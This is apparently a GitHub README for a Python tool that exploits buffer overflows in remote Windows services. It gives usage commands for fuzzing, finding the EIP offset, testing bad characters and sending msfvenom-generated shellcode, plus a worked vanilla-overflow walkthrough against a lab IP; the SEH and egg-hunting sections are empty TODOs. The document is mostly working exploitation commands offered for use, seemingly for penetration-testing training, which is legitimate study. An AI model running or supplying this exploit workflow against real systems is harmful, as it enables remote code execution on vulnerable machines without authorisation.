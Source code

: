 # Buffer-Overflow

## ig-buffer-overflow.py
* Help functions for exploting buffer overflow vulnerabilities in a Windows remote binary. 
* Tested with: Vanilla Buffer Overflow, Structured Exception Handling Overwrite (SEH Overwrite), Egg Hunting.

## Usage

test - Sends simple string (AAAAA) with buffer size and buffer head for memory test
```
./ig-buffer-overflow.py -m test --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/'
```

cyclic - Sends cyclic string to help identify memory positions
```
./ig-buffer-overflow.py -m cyclic --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/'
```

write - Writes hex value to buffer offset
```
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/' --offset=1203 --hexcontent=0A62F809
```

write - Write badchars (before or after offset content) for badchar verification
```
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/' --offset=1203 --hexcontent=0A62F809 --badchar=after --exclude=000a
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/' --offset=1203 --hexcontent=0A62F809 --badchar=before --exclude=000a --reversejmp=800
```

exploit - Sends malicious payload via buffer overflow
```
./ig-buffer-overflow.py -m exploit --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/' --offset=1203 --hexcontent=0A62F809 --reversejmp=800 --shellcode=opencalc --nops=10
```

## Parameters:
* --help|-h	: Show script usage.
* --norec|-n	: Don't wait for receive message after connect.
* --mode|-m	: Script mode (test|cyclic|write|exploit).
* --rhost		: Remote host IP.
* --rport		: Remote host port.
* --buffsize	: Amount of variable bytes to send.
* --buffhead	: Static buffer string set at the beginning of the buffer.
  * Is usually the crash string. Size is considered in buffSize calc.
* --offset	: Place in buffer where content can be added.
* --hexcontent	: Hex string to add at the offset position.
  * Can be considered as big endian (default) or little endian (will be reversed).
  * Use 'g' or 'l' to delimit the order. Examples:
    * 'g01020304l05060708' --> will send '0102030408070605'
    * '01020304' --> will send '01020304'
* --badchar	: Adds bad chars before (before) or after (after) the content. Used for bad char testing.
* --exclude	: List of chars (formatted as hex string) to be excluded from badchar list.
* --reversejmp	: Size in bytes to jump before the content to inject bad chars or the shell code.
* --shellcode	: Hex shell code file generated using msfvenom.
  * Example: msfvenom -p windows/exec cmd=calc.exe -b '\x00' -f hex EXITFUNC=thread -o opencalc
* --nops		: Amount of nops to add before and after the shell code. Default is 0.

## Vanilla Buffer Overflow example

1. Overwrite EIP
```
./ig-buffer-overflow.py -m test --rhost=10.2.31.155 --rport=2048 --buffsize=5009 --buffhead='cmd1 /.:/'
```

2. Identify EIP offset
```
./ig-buffer-overflow.py -m cyclic --rhost=10.2.31.155 --rport=2048 --buffsize=5009 --buffhead='cmd1 /.:/'
```

3. Test for badchar (JMP ESP address 625012F0 found using !mona jmp -n -r ESP)
```
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=2048 --buffsize=5009 --buffhead='cmd1 /.:/' --offset=1203 --hexcontent=l625012F0 --badchar=after --exclude=00
```

4. Execute shell code
```
msfvenom -p windows/exec cmd=calc.exe -b "\x00" -f hex EXITFUNC=thread -o mycalc

./ig-buffer-overflow.py -m exploit --rhost=10.2.31.155 --rport=2048 --buffsize=5009 --buffhead='cmd1 /.:/' --offset=1203 --hexcontent=l625012F0 --shellcode=mycalc --nops=12
```


## SEH Overwrite example

TODO

## Egg Hunting example

TODO
